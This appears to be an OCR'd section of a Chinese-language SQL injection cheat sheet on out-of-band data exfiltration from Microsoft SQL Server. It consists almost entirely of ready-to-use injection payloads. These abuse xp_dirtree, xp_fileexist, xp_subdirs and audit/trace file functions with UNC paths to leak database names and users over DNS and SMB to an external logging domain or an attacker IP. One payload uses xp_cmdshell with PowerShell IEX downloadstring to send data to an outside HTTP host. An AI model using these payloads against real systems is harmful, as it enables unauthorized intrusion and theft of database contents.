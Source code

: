       * xp_dirtree查询路径下所有文件和目录

        ```
        id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_dirtree "//''%2b@a%2b''.Laffrex.eyes.sh\\a"') --+
        ```

      * xp_fileexist判断路径是否存在

        ```
        id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_fileexist "//''%2b@a%2b''.Laffrex.eyes.sh\\a"') --+
        ```

###### ④HTTP数据外带

* 存在堆叠注入数据外带

  ```
  id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_cmdshell "powershell IEX(newobject net.webclient).downloadstring(''http://192.168.71.12:8888?data='%2b@a%2b''')"') --+
  ```

###### ⑤SMB数据外带

* 存在堆叠注入数据外带

* 利用**xp_subdirs、xp_dirtree、xp_fileexist**使用**unc**路径来判断文件发起请求带出数据

  ```
  id=1';declare @a varchar(1024);set @a=db_name();exec('master..xp_subdirs"//''%2b''192.168.71.100\\''%2b@a%2b''.txt"') --+
  ```

  **Linux执行命令查看记录**

  ```
  tail -f /var/log/samba/log.smbd | grep "failed"
  ```

###### ⑥不存在堆叠注入时数据外带

* 利用**fn_xe_file_target_read_file**、**fn_get_audit_file**、**fn_trace_gettable**，使用**unc路径**来判断文件发起请求带出数据

```
id=1' and exists(select * from fn_xe_file_target_read_file('C:*.xls','\\'+(select user)+'Laffrex.eyes.sh\1.txt',null,null)) --+
	 or
id=1' and exists(select * from fn_get_audit_file('\\'%2b(select db_name())%2b'.Laffrex.eyes.sh\123.txt,default,default)) --+
	or
id=1' and exists(select * from fn_trace_gettable('\\'%2b(select db_name())%2b'.Laffrex.eyes.sh\1.txt,default)) --+
	or
id=1' and exists(select * from fn_get_audit_file('\\192.168.172.130\'%2b(select db_name())%2b'.txt',default,default )) --+
```
